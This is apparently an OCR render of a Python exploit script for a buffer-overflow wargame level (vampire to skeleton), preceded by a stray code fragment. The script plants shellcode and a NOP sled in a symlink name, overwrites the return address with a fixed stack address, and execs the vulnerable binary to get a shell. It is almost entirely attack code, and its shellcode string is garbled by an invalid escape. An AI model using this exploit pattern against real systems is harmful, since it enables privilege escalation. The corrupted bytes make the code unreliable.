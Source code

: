 ```python
        os.waitpid(pid, 0)
```

-----

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/vampire/"

shellcode = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\x\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
sym_link = "\x90"*50 + shellcode + "\x90"*32

shellcode_addr = 0xbfffff80

if os.path.exists(sym_link):
        os.remove(sym_link)

os.symlink('skeleton', sym_link)
target = target + sym_link

payload = "\x90"*44
payload = append(p32(shellcode_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----
